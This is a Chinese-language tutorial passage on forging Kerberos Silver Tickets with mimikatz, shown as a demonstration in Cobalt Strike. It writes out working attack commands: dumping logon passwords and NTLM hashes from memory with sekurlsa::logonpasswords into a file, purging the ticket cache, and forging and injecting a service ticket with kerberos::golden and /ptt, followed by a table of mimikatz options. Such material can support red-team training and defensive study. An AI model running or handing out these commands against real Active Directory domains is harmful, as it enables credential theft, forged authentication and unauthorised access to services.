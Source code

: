 **2.2 伪造白银票据 (Silver Tickets)**
-------------------------------

**首先需要导出 Server Hash：**

管理员权限运行 mimikatz

```
mimikatz "privilege::debug” "sekurlsa::logonpasswords" "exit"  > "C:\Users\Administrator.WEB\Desktop\1.txt"
```

privilege::debug #提升权限  
sekurlsa::logonpasswords #获取 service 账户 hash 和 sid(同一个域下得 sid 一样)

我这里在 cobalt strike 中演示

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC5vdgia43qjicMUXac0ibSrsLP9yAPX8MjTQ9o348icMVq3sibyank1az7g7w/640?wx_fmt=png)

**空本地票据缓存**

kerberos::purge #清理本地票据缓存  
kerberos::list #查看本地保存的票据

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC5d4Ruhrg6QzOT3NWSX7dl1oqDLRKLlKMs1R7w0BkpGkqYhPQjwel6Uw/640?wx_fmt=png)

**伪造白银票据并导入**

```
mimikatz “kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDA5DXibhcZibBZm7mvk0iaCBC5VibV39njPS0Ml7FhXicloUh54h1eSNhZB8DV1UGOiaVdD1HeR0nvekxtQ/640?wx_fmt=png)

**Mimikatz 命令示例：**
------------------

```
/domain –完整的域名称，如：lab.adsecurity.org

/sid –域的SID，如：S-1-5-21-1473643419-774954089-2222329127

/user – 域用户名

/ groups（可选） - 用户所属的组RID

/ ticket（可选） - 提供一个路径和名称，用于保存Golden Ticket文件以便日后使用，或者使用/ ptt立即将黄金票据插入到内存中以供使用

 /ptt - 作为/ ticket的替代品，使用它来立即将伪造的票据插入到内存中以供使用。

/ id（可选） - 用户RID，Mimikatz默认值是500（默认管理员帐户RID）

/ startoffset（可选） - 票证可用时的起始偏移（如果使用此选项，通常设置为-10或0）Mimikatz默认值是0

/ endin（可选） - 票据有效时间，Mimikatz默认值是10年，Active Directory默认Kerberos策略设置为10小时

/ renewmax（可选） - 续订最长票据有效时间，Mimikatz默认值是10年，Active Directory默认Kerberos策略设置为最长为7天
```
